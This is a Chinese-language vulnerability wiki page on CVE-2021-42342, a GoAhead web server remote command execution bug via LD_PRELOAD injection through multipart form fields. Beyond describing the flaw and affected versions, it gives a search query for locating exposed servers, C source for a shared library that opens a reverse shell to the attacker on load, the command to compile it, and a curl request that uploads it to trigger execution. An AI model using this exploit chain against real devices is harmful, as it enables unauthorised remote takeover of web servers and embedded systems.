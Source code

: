 # Goahead LD_PRELOAD 远程命令执行漏洞 CVE-2021-42342

## 漏洞描述

GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序。

这个漏洞是 CVE-2017-17562 漏洞补丁的绕过，攻击者可以利用该补丁没有考虑到的multipart表单控制目标服务器的环境变量，进而劫持LD_PRELOAD来执行任意代码。

## 漏洞影响

<a-checkbox checked>5.x <= GoAhead web-server < 5.1.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="GoAhead"</a-checkbox></br>

## 漏洞复现

使用Vulnhub下的靶场进行搭建

![img](/assets/PeiQi-Wiki/img/1657072904829-9775cbdc-249f-42d1-8d8b-f7f016600500.png)

编译恶意 so 文件

```php
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
gcc evil.c -fPIC -s -shared -o evil.so
```

发送 evil.so 恶意文件

```php
curl -v -F data=@evil.so -F "LD_PRELOAD=/proc/self/fd/0" http://xxx.xxx.xxx.xxx:8080/cgi-bin/hello
```

发送请求后抓包将`Content-Length`设置成小于最终的数据包Body大小，并爆破 `/proc/self/fd/1 反弹 shell `

![img](/assets/PeiQi-Wiki/img/1657075996296-e5f8e37e-33db-424b-a040-5e890fad829a.png)